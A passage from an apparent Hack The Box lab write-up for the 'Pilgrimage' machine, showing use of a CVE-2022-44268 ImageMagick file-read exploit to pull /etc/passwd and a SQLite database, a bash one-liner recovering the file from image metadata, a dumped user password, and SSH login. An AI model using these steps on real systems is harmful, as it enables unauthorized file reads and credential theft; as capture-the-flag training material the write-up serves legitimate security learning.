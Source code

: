 ```console
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
emily:x:1000:1000:emily,,,:/home/emily:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
{: .nolineno }

#### Database SQLite

Using the same python exploit before to get the sqlite db 

```console
(kali㉿kali)-[~]$  python3.11 CVE-2022-44268.py --image sample.png --file-to-read /var/db/pilgrimage --output malcious.png
(kali㉿kali)-[~]$  python3.11 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/6563b08379ecc.png                      
Traceback (most recent call last):
  File "/home/kali/HTB/HTB Machines/Pilgrimage/CVE-2022-44268/CVE-2022-44268.py", line 49, in <module>
    main()
  File "/home/kali/HTB/HTB Machines/Pilgrimage/CVE-2022-44268/CVE-2022-44268.py", line 17, in main
    decrypted_profile_type = bytes.fromhex(raw_profile_type_stipped).decode('utf-8')
                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
UnicodeDecodeError: 'utf-8' codec can't decode byte 0x8f in position 27: invalid start byte
```

The previous error is appears because this is a SQLite file not normal ASCII text file so i downlaod the image manually and with a little of bash i can get the sqlite db file.

```console
(kali㉿kali)-[~]$ identify -verbose ~/Downloads/6563b08379ecc.png |grep -i 'Raw profile type' -A 1000 |tail -n +4|tr -d '\n' |grep -oE '[a-zA-Z0-9]{100,}'|xxd -r -p > db.sqlite

(kali㉿kali)-[~]$ sqlite3 db.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
images  users 
```
{: .nolineno }

Dumping content of users table which reveal the emily user password

```console
(kali㉿kali)-[~]$ sqlite3 db.sqlite
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> select * from users;
emily|abigchonkyboi123
sqlite> 
```

Using SSH and the password from the SQLite db we can login as emily
